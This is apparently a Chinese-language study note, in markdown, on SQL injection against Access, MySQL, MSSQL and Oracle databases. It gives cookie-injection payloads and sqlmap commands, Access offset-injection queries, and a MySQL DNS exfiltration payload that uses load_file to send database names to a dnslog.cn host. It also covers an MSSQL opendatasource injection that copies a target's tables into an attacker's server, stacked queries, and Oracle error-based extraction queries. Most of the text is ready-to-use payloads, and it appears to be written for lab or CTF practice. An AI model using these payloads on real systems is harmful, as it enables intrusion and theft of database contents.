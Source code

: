 # Access注入   cookie注入
当get和post传参被拦截的时候就可以利用cookie注入<br>
    当cookie可以被执行时说明有cookie注入<br>
    但是cookie值后面必须是url编格式才会执行
1. 通过burp修改
    cookie    asdsafasasfasfsafa id=171+and+1%3d1这种的才会执行
2. 通过浏览器f12里面的cookie直接添加

3. 通过浏览器f12里面的控制台输入js语句来修改
```js
    document.cookie="id=171"+espace()
    如：
    document.cookie="id="+espace(171 and 1 = 1)
    document.cookie="id="+espace(171 and order by 10)
    document.cookie="id="+espace(171 and select 1,2,3,4,5,6,7,8,9,10 from admin)
因为Access数据表必须接表名才会执行  Access整个就一个没有名字的库  不知道表名怎么办   只能靠猜
    常见的一些表名：admin user news job ···
    也可以利用这个函数：and exists(select * from 表名)     
    document.cookie="id="+espace(171 and exists(select * from admin))来进行尝试
    如果还不行就爆破  --->   抓包   --->   添加到intreder   --->   选中admin   -->   进行爆破
    当返回的长度看不出来的时候可以先打开一个界面，里面找一个数据(英文单词)然后再options里面Grep-Match把匹配到的值clear把刚才那个数据给添加进去就会发现再次爆破时有这个数据的就会打勾方便很多
```
4. sqlmap跑cookie注入

    python sqlmap.py -u "有cookie注入的链接(必须加双引号，锁死)" --cookie "id=171(里面这个值也锁死)" --level 2<br>
    还可以通过抓包来跑 --->  修改原本链接把id=···这些东西删了，然后再cookie后面加上刚删除的东西 最后在这些值后面加上*保存到sqlmap对应的文本中之后就可以通过sqlmap来跑<br>
    python sqlmap.py  --flush-session -r x.txt (--flush-session是忽略缓存，当两个sqlmap再跑是无法刷新会话)

# Access偏移注入
当无法查询表明的情况下可以去 [强行爆破]<br>
当知道了表名不知道字段名的情况下可以尝试用 [偏移注入] 
1. 明白admin.* = * 
```sql
    select * from admin  <===>  select admin.* from admin
    
    select * from admin union select user.* from user(想要查询user表里面的数据但不知道字段名可以尝试用user.*的方法，但前提是必须让前面表的字段名大于后面表的字段名不然查不出数据)
```
2. 注入步骤
    1. 判断注入点
    2. order by 判断字段数
    3. 判断表名
    4. 联合查询
    5. 获取表中数据
    6. 开始偏移注入
3. Access数据库模拟limit 0,1 1,1
```sql
    union select 1,2,3,4,5,6,7,8,9,0 from admin;
    union select 1,2,3,4,5,admin.* from admin;
    union select top 1 admin.* from order by 1 desc;   //   这里的top手机在admin表中一次性查询几条语句，而后面的order by 1 desc是倒叙排列
    document.cookie="id="+escape("171 union select 172,2,3,4,5,6,7,8,9,0 from admin")  --- 优先执行id=171
    document.cookie="id="+escape("171 union select 172,2,3,4,5,6,7,8,9,0 from admin order by 1 desc")  ---   优先执行172因为order by 1 desc是倒序排列不会优先执行id=数值小的而是执行数值大的
```
4. 做题  -->    不一定在同一个界面出现多个漏洞   要在每个页面尝试

# mysql DNS注入
某些无法直接利用漏洞获得回显的情况下，但是目标可以发起请求在这个时候可以通过DNSLog百姓奥那个要获得的数据外带出来<br>
对于sql盲注常见的方法就是二分猜，这样的方法麻烦，还很容易因为数据请求过高被ban  (就是一些盲注   延时盲注  变成显错注入)
所以可以将select到的数据发送给一个url，利用DNS解析产生的记录日志来查看数据<br>
1. select load_file('')  
    支持远程共享文件
2. load_file()函数
    > 读取文件并返回文件里面的内容，但有使用此函数文件必须位于服务器主机上，必须指定完整的路径文件，问且必须有FILE权限，该文件内容必须小于max_allowed_packet(限制数据包大小，默认1mb)，如何该文件或者路径不对会返回null
    > 该功能不是默认开启需要在mysql配置文件中加入"secure_file_priv="
3. UNC路径
    类似\\servername\sharename格式    其中servername是服务器名sharename是共享资源的名称
4. dnslog.cn
    and (select load_file('//',(select database()),'.通过dnslog.cn查询到的域名/随便写名字'))
5. 简单的waf绕过
```sql
    信任欺骗：服务器会认为txt文件不会对网站造成影响，所以txt文件是在信任名单里面，但是如果该目录下没有1.txt文件就会往回查看index.php文件就可以利用1.txt?id=1进行注入(前提是id没有任何防护)
    如：
    index.php/1.txt?id = 1 and (select load_file(concat('//',(select database()),'.dnslog查询到的域名/随便写'))) -- qwe
    index.php/1.txt?id = 1 and (select load_file(concat('//',(select database()),'.1h0kmx.dnslog.cn/abc'))) -- qwe
```

# MSSQL注入——回显注入   
MSSSQL  ==   Sql Server
1. 搭建一个MSSQL环境
https://my.gearhost.com/    虚拟主机
https://bccto.me/           十分钟邮箱
通过navicat连接SQL Server数据库     填写主机名(就是服务器地址)   注册用户名    密码     之后就连接上了
2. 测试是否有注入点
>'   试试特殊字符是否报错
>order by n  来判断是否存在注入
>    union select 1,2,3(这只是在mysql数据库中执行)
>union all select null,null,null(在SQL server数据库中测试显错位必须又字符要求，因为不知道是什么格式的字符所以填写null类型)

3. 注入语句
```sql
select * from dbo.sysdatabases   查询数据库 (但是SQL server数据库对库名要求不是很严格可以越过库命查表)
select * from dbo.sysobjects where xtype = 'U'    查询当前数据库的表(后面家的xtype='U'是用户创建的表)
当查字段名时，需要把刚才查询到的表明中的id记录下来
select * from dbo.syscolumns where id = 刚才记录下来的  (如果不添加 id=刚才记录的值 会查出很多字段，想找到想要的字段很费时)
select null,刚才查询到的字段,null from 表     查数据
```
 
# MSSQL注入——反弹注入   opendatasource
明明有sql注入点却无法进行注入，注入工具猜解速度很慢，错误提示信息关闭，等等，比较好解决的办法就是反弹注入<br>
反弹注入就是  --->  目标站点将你想要的数据插入到你的数据库
1. 别人能否访问到
    是否在公网          需要用到虚拟主机     ---->    SQL server数据库
2. insert into 
```sql
                opendatasource('sqloledb',          # 'sqloledb'  是一种访问方式
                'server=连接数据库的地址,端口;uid=用户名;pwd=密码;database=数据库名')
                .数据库.dbo.表名 select * from admin 
?id = 1 ' ; insert into opendata(
'sqloledb',
'server=地址,端口;uid=名字;pwd=密码;database=库名'
 ).库名.dbo.表名 select * from dbo.sysobject where xtype='U' -- qwe
 ```
3. 需要满足的条件   
    必须字段相同    select *   * 和前面库名.dbo.表的表名字段数一定要相同
4. 堆叠注入
    > 可以执行多条数据库语句
    > 传参 ; 能其效果并且执行后面的语句
    > id=1' ; order by 3 -- qwe   可以执行说明存在堆叠注入

# Oracle注入——显错注入
强调用户不强调库的概念    一个用户    ----->    一个库
回显点    回显点的类型相同  order by有数据   --->   显错注入
1. 特性：Dual是一个实表   select * from dual  会返回一个X列名为DUMMY
Dual的存在是为了满足严谨的语法
2. 语句
```sql
select * from v$version         查询版本号
select user from dual           查询当前用户名
select * from all_tables        查询全部的数据表
select * from user_tables       查当前用户用户(库)所在的表
select * from user_tab_columns  查询当前用户下所有表的字段
```
3. 类似limit 0,1  1,1 的
```sql
select * from user_tab_columns where rownum = 1     输出一条数据
select * from user_tab_columns where rownum < 3     输出两条数据
select * from user_tab_columns where rownum = 1 and column_name <> 'ID'     这就会跳过id输出下一个字段
select * from user_tab_columns where rownum = 1 and column_name <> 'ID' and column_name <> 'USER_NAME'      跳过两个字段，以此类推
```

# Oracle注入——报错注入
因为数据类型的原因显错注入变得很难  学会忽略数据类型的的注入方法
1. 场景
盲注   没有回显点     --->    报错注入
是数据库出错，强行丢出一个致命性错误，这个错误信息内容我们可以控制  --->   得到数据
2. 语句
```sql
and 1=ctxsys.drithsx.sn(user,(select banner from v$version where rownum = 1))          查版本
and 1=ctxsys.drithsx.sn(user,(select banner from sys.v_$version where rownum = 1))     查版本
and 1=ctxsys.drithsx.sn(1,(select table_name from user_tables where rownum = 1 and table_name <> 'ID'))   查表明
and 1=ctxsys.drithsx.sn(1,(select column_name from user_tab_columns where table_name = 'ADMIN' and rownum = 1))   查字段名
and 1=ctxsys.drithsx.sn(1,(select flag from admin where rownum = 1))              查数据
```